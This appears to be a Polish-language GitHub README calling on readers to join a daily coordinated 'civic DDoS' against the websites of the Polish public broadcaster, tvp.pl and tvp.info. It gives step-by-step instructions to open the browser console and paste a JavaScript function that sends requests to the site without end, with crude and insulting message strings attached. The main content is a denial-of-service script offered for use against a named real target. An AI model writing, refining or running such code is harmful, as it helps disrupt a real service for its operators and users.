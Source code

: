 
Po ostatniej aktualizacji reżimu odczuwamy bezsilną wściekłość. Chciałoby się coś z tym zrobić, ale wyjście na ulice nie wchodzi dzisiaj w grę. Niniejszy pomysł jest śmiesznie skromnym wyrazem tej bezsilności, ale daje właśnie to -- pozwala _jakoś_ zareagować: 

### Spróbujmy sprawić, by choć na chwilę zamilkła reżimowa gadzinówka. 

---

Opisane niżej działanie, wykonane w tym samym czasie przez wystarczająco dużo ludzi, doprowadzi do zgaszenia internetowych serwisów reżimowej gadzinówki. Taki nasz mały, obywatelski [DDoS](https://pl.wikipedia.org/wiki/DDoS). Aby nie komplikować sobie życia sprawami organizacyjnymi, umówiliśmy się na działanie codziennie w godzinach 19:00 - 20:00.  

---

### Krok 1

W zakładce otwórz stronę reżimowej gadzinówki:
* https://www.tvp.pl
* https://tvp.info

Możesz otworzyć obie, dla każdej z nich należy wówczas powtórzyć kroki 2-4. 

### Krok 2

Nie opuszczając widoku zakładki, otwórz konsolę przeglądarki: 

[Firefox](https://developer.mozilla.org/en-US/docs/Tools/Web_Console/Keyboard_shortcuts):  
* Windows/Linux: `Control` + `Shift` + `K`
* Mac: `Command` + `Option` + `K`

[Chrome](https://developers.google.com/web/tools/chrome-devtools/shortcuts):
* Windows/Linux: `Control` + `Shift` + `J`
* Mac: `Command` + `Option` + `J`

### Krok 3

> **WAŻNE**: Niewysłowiona złość nie pozbawia nas dobrych manier, zaczynamy więc od ostrzeżenia, że wklejanie nieznanego kodu do konsoli Twojej przeglądarki jest, co do zasady, **bardzo złym pomysłem**. Możesz w ten sposób narazić się na kradzież danych osobowych, haseł, numeru karty kredytowej itp. Poniższa funkcja niczego takiego nie robi, ale jeśli jej nie rozumiesz i znasz kogoś, kto może to dla Ciebie sprawdzić -- zrób to dla higieny ducha i intelektu. Możesz też przeczytać o niej więcej np. [tutaj](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/Using_XMLHttpRequest).  

A teraz -- zaczynamy. Wklej do konsoli poniższy fragment kodu: 

```js
function ssij(msg, i){
    i = i == null ? 0 : i; 
    msg = msg == null ? '8======D' : msg;
    var req = new XMLHttpRequest();
    req.addEventListener('load', () => ssij(msg, i+1));
    req.open('GET', document.location.origin + '/?' + msg + '-' + i);
    req.send();
}
```

Zdefiniuje on program, który będzie nieprzerwanie pobierać zawartość strony głównej aż do momentu zamknięcia zakładki. 

### Krok 4

Uruchom program. Możesz w tym miejscu wysłać reżimowej gadzinówce osobistą wiadomość, np.: 

```js
ssij('a wy gady, ja wam dam')
```

Jeśli wzburzenie odebrało Ci mowę, możesz równie dobrze nie wpisywać niczego: 

```
ssij()
```

reżimowa gadzinówka otrzyma wówczas od Ciebie zwykłego **wała**: `8======D`

---
